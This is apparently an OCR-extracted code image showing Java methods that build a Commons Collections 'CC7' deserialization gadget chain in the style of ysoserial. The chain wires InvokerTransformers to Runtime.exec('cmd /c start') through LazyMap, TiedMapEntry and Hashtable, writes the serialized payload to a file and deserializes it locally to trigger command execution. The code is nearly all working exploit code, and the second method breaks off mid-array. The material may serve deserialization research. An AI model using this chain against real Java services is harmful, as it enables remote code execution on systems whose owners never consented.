```java
    public static void main(String[] args) throws Exception {
//        cc7bySimplify();
        cc7byYsoSerial();
        verify();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc7bySimplify() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs})};
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        //TODO===========================CC7新的触发点 START=============================
        Hashtable hashtable = new Hashtable();
        hashtable.put(entry, 1);
        lazyMap.clear();
        //TODO===============================CC6新的触发点 END=========================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
    }


    public static void cc7byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
```